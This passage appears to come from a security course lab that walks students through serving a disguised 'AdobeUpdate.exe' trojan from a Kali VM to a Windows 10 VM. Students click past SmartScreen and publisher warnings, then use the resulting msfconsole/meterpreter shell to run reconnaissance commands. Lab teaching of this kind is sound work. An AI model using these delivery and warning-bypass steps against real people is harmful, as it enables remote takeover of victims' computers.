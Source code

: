         <div class='alert alert-info' markdown='1'>
            The `-j` option jobifies the exploit, or runs it as a job in the background. You can see a list of jobs running in the background by using the command jobs.
        </div>
    
7.	Now, set up a web server to host your malicious file. Change directories to `/tmp` by entering `cd /tmp` in a kali terminal.
    8.	See that the payload you generated earlier is in this directory: `ls`
    9.  Now, from that directory, run this command:

            python -m SimpleHTTPServer 8888
        
    9.	On your Windows 10 VM, browse to: 

            http://[IP of your Kali VM]:8888/

        Verify that you can view the contents of /tmp on your Kali VM.

    
16.	On your Windows 10 VM, in a web browser, download the `AdobeUpdate.exe` file from the Python webserver and run the executable. 
    * If you use Edge/IE browser, download it, click "view downloads", right-click AdobeUpdate.exe, select "Run anyway"
    * If a warning appears saying that Windows couldn’t access Windows SmartScreen, "more info", then click “Run anyway.” 
    * For the warning, “Do you want to allow this app from an unknown publisher…,” click “Yes.”
    
17.	On your Kali VM, you should see in your msfconsole that “Command shell session `X` opened,” where X is the number of the new session. Type:

        sessions -i [the number of the new session]

    This should open a shell on the Windows VM.
    
18.	Type `whoami` to see the privileges that you are running under. Note that these are the privileges of the user of your Windows 10 VM.
19.	Run the command `netstat -n` to see a listing of open connections on the Windows server. Note the “ESTABLISHED” connection from the Windows VM to your Kali VM.
20. Carry out your nefarious purposes with the victim <i class='fa fa-birthday-cake'></i>


21. **Deliverable**:       

    Take a screenshot showing the output of running the following commands from your meterpreter session:
        
        pgrep AdobeUpdate.exe
        getpid
        shell
        echo "your first and last name"
        date /t

The first command should show the process id related to your trojan pdf, and the second verifies that you are tied to that process. 
This establishes that you were successful in this exploit.

The last three commands drop you into a windows shell where you can more easily establish your identity.
